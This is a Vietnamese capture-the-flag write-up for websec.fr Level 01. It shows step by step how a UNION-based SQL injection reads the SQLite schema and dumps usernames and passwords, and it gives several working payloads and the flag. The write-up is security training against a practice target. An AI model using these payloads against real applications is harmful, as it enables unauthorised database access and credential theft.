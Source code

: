 # Babysteps

## Level 01

Description: Nothing fancy
<h3>Cách 1:</h3>

<a href="https://websec.fr/level01/">Link challenge</a>
Khi mới truy cập vào web ta sẽ được một form như sau:<br>
<img src="./img/level1/lv1_index.png/"></img>
Khi nhìn vào câu dẫn ta có thể nhận ra ngay đây là một dạng bài vê SQLi rồi nhỉ?
Để kiểm tra ta có thể nhập thử <code>'</code>, site sẽ thông báo ngay lỗi: <img src="./img/level1/lv1_error.png/"></img>. Hoặc có thể đọc source của site ở <a href="https://websec.fr/level01/source.php">Link source</a>.
=> DB đang sử dụng là SQLite3
Bây giờ sẽ cần tìm xem số cột của bảng là bao nhiêu. 
Mình sẽ nhập số một cách bình thường. Ở đây mình nhập là 1. Site trả về kết quả:
<img src="./img/lvel1/lv1_test.png/"></img><br>
=> mình đã tìm được số cột của bảng là 2 cột.
Sau đó mình dùng payload <code>1 and 1=0 UNION SELECT sql,2 FROM sqlite_master-- </code> để dò thông tin từ bảng, thu được: 
<img src="./img/lvel1/lv1_table.png/"></img>
=> Tên bảng là 'users' và có 3 thuộc tính là id, username, password

Vì chỉ crawl được thông tin của 1 dòng nên ta sẽ phải fuzz từng dòng.
Payload để có flag: <code>1 and 1=0 UNION SELECT username|| '-' || password, 2 FROM users LIMIT 2,1-- </code>
=> flag: WEBSEC{Simple_SQLite_Injection}
<h3>Cách 2:</h3>
Payload để tìm ra tên bảng:
<Code>-1 UNION SELECT 'xyz', GROUP_CONCAT(sql) FROM sqlite_master;--</Code>
Payload để lấy ra password:
<Code>-1 UNION SELECT 'xyz', GROUP_CONCAT(password) FROM users;--</Code>

